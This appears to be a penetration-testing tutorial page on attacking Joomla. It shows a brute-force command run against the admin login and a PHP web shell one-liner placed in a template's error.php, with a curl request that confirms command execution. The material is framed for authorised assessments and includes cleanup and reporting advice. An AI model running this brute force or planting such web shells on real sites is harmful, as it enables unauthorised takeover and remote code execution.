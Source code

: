 ```yaml
---
icon: joomla
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Joomla

If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions.

Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

## Brute Forcing

### joomla-bruteforce

The default administrator account on Joomla installs is `admin`, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing.

We can use the [joomla-bruteforce.md](../../../../toolbox/tooling/password-attacks/joomla-bruteforce.md "mention")script to attempt to brute force the login.

{% code title="Command" %}
```bash
sudo python3 joomla-brute.py -u http://dev.acme.com -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}

{% code title="Output" %}
```bash
admin:admin
```
{% endcode %}

## Abusing Built-in Functionality

### Code Execution

Once credentials are obtained log in to the target backend at `http://<URL>/administrator`. Once logged in, we can add a snippet of PHP code to gain RCE. We can do this by customising a template.

{% hint style="danger" %}
## An error has occurred. Call to a member function format() on null

If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://\<URL>/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

<figure><img src="../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="../../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Finally, we can click on a page to pull up the page source.

{% hint style="info" %}
## Web Shell Best Practice

It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.
{% endhint %}

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

{% code title="PHP Web Shell" %}
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```bash
curl -s http://dev.acme.com/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.
